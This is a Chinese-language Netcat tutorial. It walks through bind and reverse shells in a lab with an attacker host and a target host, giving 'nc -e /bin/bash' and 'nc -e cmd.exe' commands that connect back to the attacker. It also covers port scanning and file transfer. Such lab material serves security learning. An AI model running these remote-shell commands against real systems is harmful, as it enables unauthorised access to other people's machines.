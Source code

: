 # Netcat反弹Shell

`Netcat`简称NC,是一个简单、可靠的网络工具,被誉为网络界的瑞士军刀。

通NC可以进行端口扫描、反弹Shell、端口监听和文件传输等操作,常用参数如下：

| -**c** | 指定连接后要执行的**shell**命令                              |
| ------ | ------------------------------------------------------------ |
| -e     | 指定连接后要执行的文件名                                     |
| -k     | 配置 Socket一直存活(若不想退出 Shell后使监听断开可使用此参数) |
| -l     | 监听模式                                                     |
| -p     | 设置本地主机使用的通信端口                                   |
| -u     | 使用UDP传输协议,默认为TCP                                    |
| -v     | 显示指令执行过程,用-vv会更详细                               |

```
nc -lvvp 1111
```

## 一、正向反弹**Shell**

### **1**、实验拓扑

![img](https://image.201068.xyz/assets/clip_image001.jpg)

| 机器名称 | 机器**IP**   |
| -------- | ------------ |
| 攻击机器 | 192.168.3.27 |
| 目标靶机 | 192.168.3.29 |

### **2**、实验介绍

攻击者机器 `192.168.3.27` 和靶机![img](https://image.201068.xyz/assets/clip_image005-168398338723211.gif) `192.168.3.29`![img](https://image.201068.xyz/assets/clip_image007-168398338723212.gif)可以相互的访问， 这个时候可以使用正向shell

### **3**、实验复现

#### \1) 在靶机上运行：

```
nc -lvvp 1111 -e  C:\Windows\System32\cmd.exe  windows机器  
nc -lvvp 1111 -e  /bin/bash  linux机器  
```

![img](https://image.201068.xyz/assets/clip_image009.gif)

#### \2) 在攻击机上运行

```
 nc 192.168.3.29 1111  
```

![img](https://image.201068.xyz/assets/clip_image010-168398338723213.jpg)

#### \3) 拿到正向的shell

![img](https://image.201068.xyz/assets/clip_image012-168398338723214.gif)

## 二、反向反弹**Shell** 

### **1**、实验拓扑

![img](https://image.201068.xyz/assets/clip_image001.jpg)

| 机器名称 | 机器**IP**   |
| -------- | ------------ |
| 攻击机器 | 192.168.3.27 |
| 目标靶机 | 192.168.3.29 |

### **2**、实验介绍

攻击者机器`192.168.3.27`不能直接访问靶机， 但是靶机![img](https://image.201068.xyz/assets/clip_image019.gif) `192.168.3.29`可以访问攻击者的机器， 这个时候使用反 向shell

### **3**、实验复现

#### \1) 在攻击者机器运行

```
nc -lvvp 1111 监听1111端口  
```

#### \2)  在靶机上运行  (反弹到公网)

```
 nc -e C:\Windows\System32\cmd.exe  192.168.3.27 1111  windos机器  
 nc -e  /bin/bash  192.168.3.27 1111  linux机器  
```

#### \3) 拿到反向的shell

![img](https://image.201068.xyz/assets/clip_image021.jpg)

## 三、 **Nc**的其他用法

### **1**、 **Banner** 的抓取

靶机运行着ssh服务， 可以查看服务的版本

```
nc -nv IP Port  
```

![img](https://image.201068.xyz/assets/clip_image023.gif)

### **2**、端口探测

#### 可以查看端口的开放情况

```
nc -v IP Port 
```

![img](https://image.201068.xyz/assets/clip_image025.gif)

#### 多端口扫描：

```
nc -v -z IP 1-65535  
```

![img](https://image.201068.xyz/assets/clip_image029.gif)

### **3**、端口监听

监听端口， 当访问该端口会输出该信息

```
 nc -l -p Port  
```

![img](https://image.201068.xyz/assets/clip_image030.jpg)

### **4**、文件传输

```
接受端： nc -lp Port > file

发送端： nc -vn IP Port < file -q 1 (windows是-w， Linux是-q)

nc -lp 1111 > 1.txt
nc -vn 192.168.70.8 1111 < 1.txt -w 1
type 1.txt
```

#### 1、  接收端文件夹下为空

![img](https://image.201068.xyz/assets/clip_image032.gif)

#### 2、  接收端执行命令

![img](https://image.201068.xyz/assets/clip_image034.gif)

![img](https://image.201068.xyz/assets/clip_image035.jpg)

#### 4、  接收端接收到文件

![img](https://image.201068.xyz/assets/clip_image037.gif)

### **5**、简易聊天

#### 1、vps执行 

```
nc -l -p Port

nc -lp 1111
```

![img](https://image.201068.xyz/assets/clip_image039.gif)

#### 2、靶机执行：

```
nc -vn IP Port

nc -vn 192.168.70.8 1111
```

![img](https://image.201068.xyz/assets/clip_image040.jpg)

### **6**、连接远程主机

```
命令 nc -nvv IP port
```
